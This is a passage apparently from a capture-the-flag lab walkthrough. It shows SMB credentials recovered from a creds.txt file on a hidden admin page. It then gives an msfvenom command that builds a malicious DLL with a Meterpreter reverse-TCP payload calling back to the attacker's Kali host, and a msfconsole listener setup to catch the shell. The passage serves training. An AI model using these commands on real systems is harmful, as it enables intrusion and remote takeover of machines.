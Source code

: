 Accessing the hidden admin page reveals a link to a text file named
"creds.txt", which includes the SMB creds. The password is randomly
generated for each deployment. Note: if your password displays as ##password1##, please wait 60 seconds then refresh. 

![](./img/going-the-distance-image3.png)

![](./img/going-the-distance-image4.png)

Players should review the Github page in `~/Desktop/ChallengeFolder/Far` for information on the exploit and
how to use the python script.

Create the malicious dll using `msfvenom` using a LHOST of your Kali system (`176.194.115.252`).

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=176.194.115.252 LPORT=4444 -f dll -o evil.dll
```

![](./img/going-the-distance-image5.png)

Setup a msfconsole listener by first launching msfconsole in the
terminal. 

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j
```
